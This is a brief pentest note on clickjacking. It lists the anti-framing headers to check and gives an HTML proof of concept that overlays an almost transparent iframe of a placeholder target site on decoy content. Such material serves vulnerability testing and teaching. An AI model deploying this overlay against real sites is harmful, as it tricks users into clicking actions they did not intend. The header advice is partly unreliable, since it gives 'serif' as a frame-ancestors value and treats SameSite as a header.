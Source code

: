 # Clickjacking

Tags: Technique

first of all you need to check security headers for this vulnerability

`X-Frame-Options`: DENY or SAMEORIGIN

`Content-Security-Policy`: frame-ancestors ‘none’ or ‘serif’; or *.example.com;

`SameSite=Strict`

if this headers isn't set you may can perform clickjacking or in pentest progress you must report it.

the clickjacking code sample:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```
